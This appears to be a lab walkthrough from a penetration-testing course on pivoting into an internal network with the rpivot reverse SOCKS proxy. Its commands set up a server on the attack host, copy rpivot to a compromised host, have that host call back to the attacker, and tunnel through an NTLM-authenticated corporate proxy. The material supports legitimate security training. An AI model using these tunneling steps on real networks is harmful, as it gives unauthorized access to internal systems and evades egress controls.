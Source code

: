 Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (172.16.5.135), and we want to access that using the rpivot proxy.
```
https://github.com/klsecservices/rpivot
```
```
w1j0y@htb[/htb]$ sudo git clone https://github.com/klsecservices/rpivot.git
```
```
w1j0y@htb[/htb]$ sudo apt-get install python2.7
```
1. We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.
## Running server.py from the Attack Host
```
w1j0y@htb[/htb]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
2. Before running client.py we will need to transfer rpivot to the target.
## Transferring rpivot to the Target 
```
w1j0y@htb[/htb]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
## Ubuntu Pivot Host
3. Running client.py from Pivot Target
```
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999
```
## Back to Attack Host
4. Configure proxychains to pivot over our local server on 127.0.0.1:9050
```
127.0.0.1 9050
```
5. Browsing to the Target Webserver using Proxychains
```
proxychains firefox-esr 172.16.5.135:80
```
=> use curl to read the contens of the webpage on port 80 (internal network)

Similar to the pivot proxy above, there could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have HTTP-proxy with NTLM authentication configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way:
## Ubuntu Pivot Host
### Connecting to a Web Server using HTTP-Proxy & NTLM Auth
```
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```